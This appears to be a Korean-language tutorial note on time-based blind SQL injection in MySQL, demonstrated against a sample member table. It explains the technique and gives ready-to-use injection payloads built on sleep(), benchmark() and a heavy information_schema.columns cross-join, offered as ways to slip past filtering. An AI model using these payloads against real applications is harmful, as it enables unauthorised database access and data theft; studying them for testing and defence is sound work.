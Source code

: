 # Time based blind sqli

#### Time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

<br>

## MySQL 시간 지연 우회

* * *

### sleep()

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

* sleep 함수의 지연되는 시간 단위는 각 운영체제의 설정에 따라 다를 수 있다.

<br>

* * *

### benchmark()

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.

<br>

* * *
### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에

불러오는 과정에서 시간지연이 생기게 되버린다.

![information image](./image/mysql-informaction.png)

밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.

<br>

* * *

### 마무리

핵심은 저런 함수만 사용이 가능하는것이 아닌

Time based sql injection 인 만큼

시간 지연 가능한 쿼리만 잘 짜서 요청을 하면 된다.
